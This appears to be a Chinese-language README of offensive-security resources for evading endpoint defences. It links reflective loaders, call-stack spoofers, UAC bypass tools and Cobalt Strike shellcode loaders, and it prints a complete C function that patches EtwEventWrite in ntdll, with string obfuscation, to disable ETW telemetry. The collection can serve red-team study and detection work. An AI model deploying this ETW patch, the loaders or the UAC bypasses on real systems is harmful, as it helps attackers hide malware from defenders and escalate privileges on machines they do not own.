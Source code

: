 # 基础学科

* 反射加载器 [ https://github.com/monoxgas/sRDI ]
* 调用栈伪造 [ https://github.com/WithSecureLabs/CallStackSpoofer , https://github.com/Barracudach/CallStack-Spoofer ]
* Wow64进程执行64位代码 [ https://github.com/rwfpl/rewolf-wow64ext ]


# 常见终端绕过（或检测）技术

## Bypass UAC
* 通过环境变量(DLL)劫持iscsicpl, 不支持win7 [ https://github.com/zha0gongz1/iscsicpl_bypassUAC ]
* ICMLuaUtil接口(通杀win7-win11 墙裂推荐⭐) https://github.com/0xlane/BypassUAC/blob/master/BypassUAC/main.cpp

## CS(SHELLCODE) 内存检测
* https://github.com/thefLink/Hunt-Sleeping-Beacons

## CS(SHELLCODE) 加载器
* AceLdr [ https://github.com/kyleavery/AceLdr ], 具备`shellcode`运行时加解密, 调用栈伪造等特性 (TitanLdr框架 + FOLIAGE + RET_ADDR_SPOOFING)
* TitanLdr [ https://github.com/kyleavery/TitanLdr ], 原版 D2H 的`shellcode`加载器, 粗略看过一遍


## Bypass ETW
```C

int DisableETW(void) {
	unsigned char strVirtualProtect[] = { 'V','i','r','t','u','a','l','P','r','o','t','e','c','t',0x0 };
	unsigned char strFlushInstructionCache[] = { 'F','l','u','s','h','I','n','s','t','r','u','c','t','i','o','n','C','a','c','h','e',0x0 };
	WCHAR strKernel32dll[] = { 'K','e','r','n','e','l','3','2','.','d','l','l',0x0 };
	WCHAR strNtdlldll[] = { 'N','t','d','l','l','.','d','l','l',0x0 };

	VirtualProtect_t VirtualProtect_p = (VirtualProtect_t)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), (LPCSTR)strVirtualProtect);
	t_FlushInstructionCache pFlushInstructionCache = (t_FlushInstructionCache)hlpGetProcAddress(hlpGetModuleHandle(strKernel32dll), strFlushInstructionCache);

	DWORD oldprotect = 0;

	unsigned char sEtwEventWrite[] = { 'E','t','w','E','v','e','n','t','W','r','i','t','e', 0x0 };

	void* pEventWrite = hlpGetProcAddress(hlpGetModuleHandle((LPCSTR)strNtdlldll), (LPCSTR)sEtwEventWrite);

	VirtualProtect_p(pEventWrite, 4096, PAGE_EXECUTE_READWRITE, &oldprotect);

#ifdef _WIN64
	memcpy(pEventWrite, "\x48\x33\xc0\xc3", 4); 		// xor rax, rax; ret
#else
	memcpy(pEventWrite, "\x33\xc0\xc2\x14\x00", 5);		// xor eax, eax; ret 14
#endif

	VirtualProtect_p(pEventWrite, 4096, oldprotect, &oldprotect);
	pFlushInstructionCache(-1, pEventWrite, 4096);
	return 0;
}

// https://github.com/Allevon412/BreadBear/blob/4f1f5da39b423f0655df9338e01c8b733c6d1152/stage1/Evasion.c
```
